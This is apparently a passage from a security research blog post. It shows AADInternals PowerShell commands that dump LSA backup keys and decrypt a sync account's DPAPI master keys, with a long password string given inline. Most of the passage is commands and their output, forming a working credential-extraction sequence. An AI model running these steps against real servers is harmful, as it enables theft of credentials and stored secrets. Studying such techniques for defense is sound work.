{{< highlight powershell >}}
# Get user's master key
Get-AADIntUserMasterkeys -UserName AAD_2980bcb19aa3 -Password 'a5bTiGcvC8fr=E;MQ331IOt/&RP,!m:qjiRXaS;xr4V#6t74;&7mXWoOoz"57K/kKTz#xdBBqb.GDKly' -SID "S-1-5-21-xx-xx-xx-xx"
{{< /highlight>}}
```
Name                           Value                                                                                                                                            
----                           -----                                                                                                                                            
023cd868-7ebe-4b1a-80bf-85b... {236, 115, 202, 81...}  
```

Later I discovered that also the decryption using system key was needed. But first we need to get the those keys. 

{{< highlight powershell >}}
# Dump the LSA keys
Get-AADIntLSABackupKeys
{{< /highlight>}}
```
certificate        Name   Id                                   Key                   
-----------        ----   --                                   ---                   
{48, 130, 3, 0...} RSA    709d861c-56c1-4f8c-94fd-c15a91bbd991 {30, 241, 181, 176...}
                   Legacy e9ab591b-c25f-432f-97f7-a77e5c998fd3 {226, 180, 14, 151...}
```

Now that we have the LSA keys, we are able to decrypt all master keys!
{{< highlight powershell >}}
# Dump the LSA key
$rsa=Get-AADIntLSABackupKeys | where Name -eq RSA

# Get user's master key
Get-AADIntUserMasterkeys -UserName AAD_2980bcb19aa3 -SID "S-1-5-21-xx-xx-xx-xx" -SystemKey $rsa.Key
{{< /highlight>}}
```
Name                           Value                                                                                                                                            
----                           -----                                                                                                                                            
023cd868-7ebe-4b1a-80bf-85b... {236, 115, 202, 81...}  
```

## Decrypting secrets
Now that we know the location of the secrets and we have decrypted the master key, we can decrypt the encryption keys!
